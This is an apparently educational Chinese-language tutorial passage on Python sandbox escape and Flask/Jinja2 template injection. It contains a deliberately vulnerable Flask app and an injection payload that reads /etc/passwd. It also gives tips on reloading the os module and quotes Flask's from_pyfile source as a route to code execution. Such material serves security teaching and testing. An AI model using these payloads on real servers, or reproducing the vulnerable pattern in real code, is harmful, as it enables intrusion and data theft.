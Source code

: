 ### 修改sys.modules
由于import导入包时，是从sys.path中去导入对应的包  
防御者可能会对其进行修改，导致无法导入想要的模块  
  
这时可以自己尝试修改模块的位置`sys.modules['os']='/usr/lib/python2.7/os.py'`
或者尝试运行一遍`os.py`，也就相当于导入了一次os模块
```python
execfile('/usr/lib/python2.7/os.py')
```

### 寻找数据链
大多数情况下时，可以尝试利用类似之前的payload，通过类之间的关系，寻找对应的数据链  
然后找到你想要的函数引用，就可以进行命令执行了


# Jinja2中的沙箱逃逸
沙箱逃逸讲完了，就再回来看看如何逃逸Jinja2的沙箱  
和之前环境类似
```python
from flask import Flask, render_template_string, request

app = Flask(__name__)

@app.route('/')
def index():
	name = request.args.get('name')
	template = '<h1>hello {}!<h1>'.format(name)
	return render_template_string(template)

app.run()
```
环境依旧是2.7，利用之前那个payload，我们很容易就能进行任意文件读取  
```
http://192.168.5.128:5000/{{ [].__class__.__base__.__subclasses__()[40]('/etc/passwd').read() }}
```
![](/Flask-Jinja2-SSTI-python-沙箱逃逸/5.png)  
  
但，其实能做的远不止这些  
  
在config对象中，`from_pyfile`可以将对象加载到Flask的配置环境中
```python
def from_pyfile(self, filename, silent=False):
        """Updates the values in the config from a Python file.  This function
        behaves as if the file was imported as module with the
        :meth:`from_object` function.

        :param filename: the filename of the config.  This can either be an
                         absolute filename or a filename relative to the
                         root path.
        :param silent: set to `True` if you want silent failure for missing
                       files.

        .. versionadded:: 0.7
           `silent` parameter.
        """
        filename = os.path.join(self.root_path, filename)
        d = imp.new_module('config')
        d.__file__ = filename
        try:
            with open(filename) as config_file:
                exec(compile(config_file.read(), filename, 'exec'), d.__dict__)
        except IOError as e:
            if silent and e.errno in (errno.ENOENT, errno.EISDIR):
                return False
```